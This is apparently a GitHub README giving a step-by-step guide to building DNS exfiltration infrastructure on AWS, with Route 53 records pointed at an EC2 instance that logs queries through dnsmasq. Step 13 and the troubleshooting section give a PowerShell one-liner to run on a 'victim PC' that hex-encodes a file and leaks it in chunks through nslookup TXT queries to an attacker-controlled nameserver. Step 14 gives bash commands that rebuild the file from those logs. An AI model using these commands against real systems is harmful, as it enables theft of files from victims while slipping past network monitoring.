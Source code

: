 # DNS Exfil
DNS Exfiltration Setup on AWS

## Step 1: Purchase Domain Name on Route 53
Verify your email!

## Step 2: Create EC2 instance to host DNS service and logging
Use Amazon Linux OS, or any Linux OS of your preference.
Logging will contain DNS requests with encoded information, which we can then grep and cut later.
  
![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/1acdb4fc-de86-46e1-9516-de9cc23264d9)


## Step 3: Create Security Groups
Inbound - Allow ICMP, TCP DNS, UDP DNS, SSH  
Outbound - Any  

  
## Step 4: Install dnsmasq on EC2 instance and configure it
`sudo yum install dnsmasq`  
`sudo nano /etc/dnsmasq.conf`  
  
Then input the content below into /etc/dnsmasq.conf, right at the bottom of the config file    
  
listen-address=<EC2's private IP>  
address=/#/<EC2's public IP>  
log-queries  
log-facility=/var/log/dnsmasq.log  
  
Restart the VM, or use the commands below to restart dnsmasq  
`ps -aux | grep dnsmasq`  
`sudo kill <pid of dnsmasq>`  
`sudo systemctl restart systemd-networkd.service`  
`sudo dnsmasq`  

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/b0cfaf2f-93c0-4967-957c-cd3269241435)
  
  
## Step 5: Go to Route 53 config, note down default SOA and NS records  
Route 53 > click Hosted zones  
  
![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/50f03726-cfaf-4c20-b2c4-b5f1186cc1ee)
  
  
## Step 6: In Route 53 config, create 2x A Record to point NS record to your EC2 instance
**Record Name:** ns1.<yourdomain.com>  
**Type:** A  
**Value:** your EC2 public IP address  
**TTL:** 300  

**Record Name:** ns2.<yourdomain.com>  
**Type:** A  
**Value:** your EC2 public IP address  
**TTL:** 300  

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/25738c09-9728-44b0-bab4-4534f07e0b0a)

  
## Step 7: Modify existing NS Record to point to your NS records, which point to your EC2 instance
**Record Name:** <yourdomain.com>  
**Type:** NS  
**Value:**  
ns1.<yourdomain.com>  
ns2.<yourdomain.com>  
**TTL:** 60  

## Step 8: Modify existing SOA record to point to your NS record, which points to your EC2 instance
**Record Name:** <yourdomain.com>  
**Type:** SOA  
**Value:** ns1.<yourdomain.com>. admin.<yourdomain.com> 1 7200 900 1209600 86400  
**TTL:** 60  
  
  
## Step 9: Note down default glue records
In Route 53, click on Registered domains > click Actions > Edit name servers

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/ca4d78ab-49ac-4880-bbfc-755626bd8bcf)  
    

Note down the current name server settings before making any modifications  

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/35cf3290-b494-45de-9752-fea7e57e7f91)

  
## Step 10: Modify glue records
Once current settings noted down, change it to point to your own DNS server then Save.  
**Name Server:** ns1.<yourdomain.com>  
**Glue Records:** <your EC2 public IP address>  
  
![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/90d99de8-7099-4c4c-be81-5d9a8b68df3e)
  

## Step 11: Use CMD to nslookup as a test
Launch cmd prompt on victim PC then run the command below  
`nslookup -q=TXT 17April2024206pm.<yourdomain.com> ns1.<yourdomain.com>`  
  
![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/1cf48904-5c60-4e33-924d-108513b1b5e4)


## Step 12: Check your DNS logs in EC2
In EC2 DNS server, run the command below and observe your nslookup query being logged.  
`sudo cat /var/log/dnsmasq.log | grep -F "[TXT]"`  


## Step 13: Powershell command to hex encode a file, split, and do nslookup
Launch powershell prompt on victim PC then run command below.  
   
`cd <to folder holding file to exfiltrate>`  
`certutil -encodehex <file to exfiltrate> encoded.hex 12; $buffer = Get-Content .\encoded.hex; $split = $buffer -split '(.{50})' -ne ''; foreach ($line in $split) {nslookup -q=TXT "$Line.<yourdomain.com>" ns1.<yourdomain.com>; sleep 5} `

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/2624b595-5ce0-423b-901b-8702de5a99c2)
  

## Step 14: Use a BASH command to read contents from TXT requests, remove unnecessary content, remove line break, remove spacing
In EC2 DNS server, run the commands below to combine assemble hex into file.  

`sudo cat /var/log/dnsmasq.log | grep -F '[TXT]' | cut -f 6 -d ' ' | cut -f 1 -d '.' | sed -z 's/\n/ /g' | sed -e 's/[[:space:]]//g' > output`  
`sudo cat output | xxd -p -r > <file to exfiltrate from Step 12> && cat <file to exfiltrate from Step 12>`  

![image](https://github.com/benlee105/DNS-Exfil/assets/62729308/c18d73f6-f166-4f47-aaa0-dc4a479cd2b3)

  
## Troubleshooting Tips:  
  
### Step 11, nameserver issue
In Step 10, sometimes you need to specify nameserver (ns1.<yourdomain.com>) in the nslookup command, sometimes you don't. I'm unsure why that is so.  
Remove or add nameservers as needed according to what you experience.  
You'll also need to remove or add nameservers from the command in Step 12!  
  
### Step 12, clearing logs
After some tests you might want to clear your logs. Use the command below:  
`sudo nano /var/log.dnsmasq.log`  
In nano, press `Alt + T` to clear everything in the log file  
Press `Ctrl + X` to save  

### Step 14, blank file output
There may be rare occasions where your output file is blank. Troubleshoot with commands below:  
  
Check that you're "cutting" correctly from the dnsmasq log using `sudo cat /var/log/dnsmasq.log | grep -F '[TXT]' | cut -f 6 -d ' ' `.  
  
Adjust "-f 6" to "-f 5" or "-f 7" to change where to cut the log. Once you get the right spot, modify cut command accordingly.
  
### Command to split file and nslookup with incremental 1., 2., 3., 4.
certutil -encodehex <file to exfiltrate> encoded.hex 12; $buffer = Get-Content .\encoded.hex; $split = $buffer -split '(.{50})' -ne ''; $n=0; foreach ($line in $split) {$n++; nslookup -q=TXT "$n.$Line.<yourdomain.com>" ns1.<yourdomain.com>; sleep 5}

### Regex to search for 1.xxxxx.dnsname.com, 10.xxxxx.dnsname.com, 100.xxxxx.dnsname.com
sudo cat /var/log/dnsmasq.log | grep -F "query[A]" | cut -f 6 -d ' ' | grep -P "^\d{1,3}\."  
